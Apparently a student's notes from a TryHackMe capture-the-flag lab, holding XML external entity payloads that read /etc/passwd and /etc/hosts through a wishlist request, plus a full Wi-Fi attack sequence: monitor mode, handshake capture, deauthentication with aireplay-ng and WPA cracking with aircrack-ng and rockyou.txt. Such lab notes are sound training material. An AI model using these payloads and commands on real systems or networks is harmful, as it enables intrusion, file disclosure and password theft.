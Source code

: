 ```
   <!ENTITY ext SYSTEM "http://tryhackme.com/robots.txt">
]>
<people>
   <name>Glitch</name>
   <address>&ext;</address>
   <email>glitch@wareville.com</email>
   <phone>111000</phone>
</people>


# we change the source and file path to get our desired file from the system itself:
<!DOCTYPE people[
   <!ENTITY thmFile SYSTEM "file:///etc/passwd">
]>
<people>
   <name>Glitch</name>
   <address>&thmFile;</address>
   <email>glitch@wareville.com</email>
   <phone>111000</phone>
</people>

# in the challenge I changed the request to:
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY payload SYSTEM "/etc/hosts"> ]>
<wishlist>
  <user_id>1</user_id>
     <item>
       <product_id>&payload;</product_id>
     </item>
</wishlist>

```

=================================================================================
# Wifi attach
```
iw dev					# This will show any wireless devices and their configuration that we have available for us to use.
sudo iw dev wlan2 info
sudo iw dev wlan2 scan			# scan for nearby Wi-Fi networks using our wlan2 device

# enable monitor type:
sudo ip link set dev wlan2 down
sudo iw dev wlan2 set type monitor
sudo ip link set dev wlan2 up

# listen to wifi traffic
sudo airodump-ng wlan2			# capturing Wi-Fi traffic in the area,  provides a list of nearby Wi-Fi networks (SSIDs) and shows important details like signal strength, channel, and encryption type
sudo airodump-ng -c 6 --bssid 02:00:00:00:00:00 -w output-file wlan2		# listen on the specific device traffic and output the result on outfield (capture handshake)

# deauth attack
sudo aireplay-ng -0 1 -a 02:00:00:00:00:00 -c 02:00:00:00:01:00 wlan2		# The -0 flag indicates that we are using the deauthentication attack, and the 1 value is the number of deauths to send. The -a indicates the BSSID of the access point and -c indicates the BSSID of the client to deauthenticate.

# crack password
sudo aircrack-ng -a 2 -b 02:00:00:00:00:00 -w /home/glitch/rockyou.txt output*cap	# where the -a 2 flag indicates the WPA/WPA2 attack mode. The -b indicates the BSSID of the access point, and the -w flag indicates the dictionary list to use for the attack. 
```